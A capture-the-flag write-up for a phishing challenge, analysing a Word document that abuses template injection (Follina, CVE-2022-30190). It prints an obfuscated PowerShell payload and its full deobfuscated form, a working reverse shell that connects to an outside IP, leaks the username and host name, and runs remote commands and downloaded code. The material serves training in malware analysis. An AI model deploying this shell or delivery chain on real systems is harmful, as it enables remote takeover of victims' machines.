 # Phishing

## Write-up

According to the description and the name, we know this was a phishing attack employing an office word document; typically, malicious macros or template injection are used in phishing with word.

We don't notice any macros in the provided document, but we do see what appears to be template injection and a suspicious link `http://134.122.84.204/rtf-word-template.html` standing out in `word/_rels/document.xml.rels`.

By googling the IOCs or simply staying in tune with Infosec news a fresh zero day vulnerability was discovered in the wild in the beginning of summer 2022 dubbed [CVE 2022-30190 (follina)](https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/)

> The link is not up, but you can find the [rtf-word-template.html](rtf-word-template.html) in the repo.

According to the vulnerability specification the attacker is trying to execute this script:

```powershell
&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String((('H4sIAA9iSGM{0}A5VVTW/jNh{0}9+1cMDLWREJtQvDm0AbKoq80WAbK7xiptDoaB0NQ4VkOTLknFNhL/95IS9eE4Qbs62BJn+Pj45{1}25KAQzuRTwB5rhHc4Zz1EY6D33wD7BhsElfMXN8Nv8b2QGhre7NX6lK7SDhtj8pMyvk8mfGj/h{1}hbcJ'+'AozG8kp1xYiMKrAJmui5HZHXmXY8c5Indvb9xY1xbXcoLJflh2U8QlVdBVW79PUqFw8zI'+'JErlZUZIPD0VRzJsWrwU9yI7ikWTkaeUwlGWoNXo{0}VzAqOjuBvYQRVSr6AsF4Ghv{1}P9Oe5yPpRGazmlXN5r{1}0KVHbyNN3Z9xVxqqWSPaLR5Jatb3zG7Nc4/nA8kWhDlXHr+pXLq{0}/RZSdvzBiujQW'+'syhFWVPbv0VX4hErjMeMGulPyt5{1}nE79Q/+zDOTkbjc{1}v52QUn/cHbiN+9V6loDYK6crRrd{0}JdVpajlmaLcGqQBU/Z5a+r0eHndY8rcHeIYisULnZkbRODf36{1}2BhXYW'+'D8Dm4teh7GFIN04M533ElDSaoTL7IGTX4F+V5Rp31Esr5nLLHWRS9QYeM{0}7N0vnWTxvo9aQJRcD7oG67PRn3PpwvX6NTusyvkdL4zOJ3NAvfvDBkTi2ufl5+e473XGkVWh8Opwa0hKJjMnNsvLsZpcn0dOf1/dzlh/87aVm40TFxjpUvk'+'HFQhhM0Gq06hrXX7cAoBiqcL9yVc45/aMVuoJsDkal2YN'+'n{1}vErneqfxhaSBMIvi'+'SMyW1XBhIpFpLVQpKYOwWc0kaFFrsJ8zI'+'vb{1}X3pReDnJnS4Nhu7FBPG{1}/yA2KB7Ps2'+'qhu6a6Rjnz0YypNT2dwYyGdLP44IA3PH+daz/os1RVlS8u5AoVcNMdNm9XSdk94cEpHpN5tdaDVSNHLtXiSjzi82q6tttrq3aDsu5baLHOOYRjkpeuqTXxHmoWVxwYQDyA4YB/BU{0}DER5JeOf0wu7Vavndh+DZ1KaTU+Mpr3qLYZqOOS{1}fNnxbl7mpRIci'+'jV9W0vemKebRvGNYHXwU++vjzGbzAt8IMK1Tw5jmAGkEpSA18{0}ieTFE7sf6n/jWSlhyMyoWbpo'+'h/'+'hpAXZOi'+'IBKiXVNJ4dLNZhXcYJ40hVGL3F4LL7YVtt2zs28P/ybwvzn47tGvbIr/Wcz7zQy+Yu9AePP9oTLjX6/ZTtWN9QXcO011Zq5Lq+q/yvdWZzzTe18/fVv8LuL+ys{0}AAA')-f'C','g')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))
```

Deobfuscation in this challenge is as simple as removing `&` operator and echoing the result of the script

```powershell
function Get-Webclient
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun
{
    Param(
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    )
    Process {
    $modules = @()
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]9003
        $listener.start()
        $client = $listener.AcceptTcpClient()
    }
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("134.122.84.204",9003)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true")
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("134.122.84.204",$null,"tls12",$false)
        $stream = $sslStream
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()
    if ($listener)
    {
    $listener.Stop()
    }
    }
}

powerfun -Command reverse
```

This was out of the box msfvenome powershell reverse shell connecting to "134.122.84.204:9003" by connecting to that port we see the following communication:

```
>$super_secret = 'IngeHack{N3ver_0p3n_5us_VV0rD_d0Cs_k1dd0}'
>whoami
<then the connection waits for a response
>msg $env:username I AM STRONG I AM SMARTER I AM BETTER
```

As you can see I was getting people's whoami outputs just to see how many people executed the script directly on their own personal computer ( ;) I know you people), people who used safe VM labs kudos to you.  
Don't execute stranger's scripts from the internet not even mind.
